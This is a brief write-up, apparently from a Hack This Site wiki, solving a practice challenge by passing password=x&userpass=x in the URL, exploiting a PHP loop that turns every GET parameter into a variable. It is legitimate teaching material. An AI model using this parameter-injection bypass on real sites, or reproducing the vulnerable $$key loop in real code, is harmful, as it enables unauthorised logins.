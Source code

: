 ```yaml
---
categories:

---
```

### Solution

    moo.com/index.php?password=x&userpass=x

### Explanation

The hack is done in the following code :

    foreach ($_GET as $key => $value)
            { 
              $$key = $value; 
            }

\$\_GET is an array and basically this code means : \${\$key} = \$value
for each value you put in \$\_GET So if you put in \$\_GET password=x
and userpass=x you'll have: \$\_GET[password]=x and \$\_GET[userpass]=x
and the foreach will do \$password=x; \$userpass=x; and we will have
\$userpass == \$password

[Category:Hack This Site](Category:Hack This Site "wikilink")
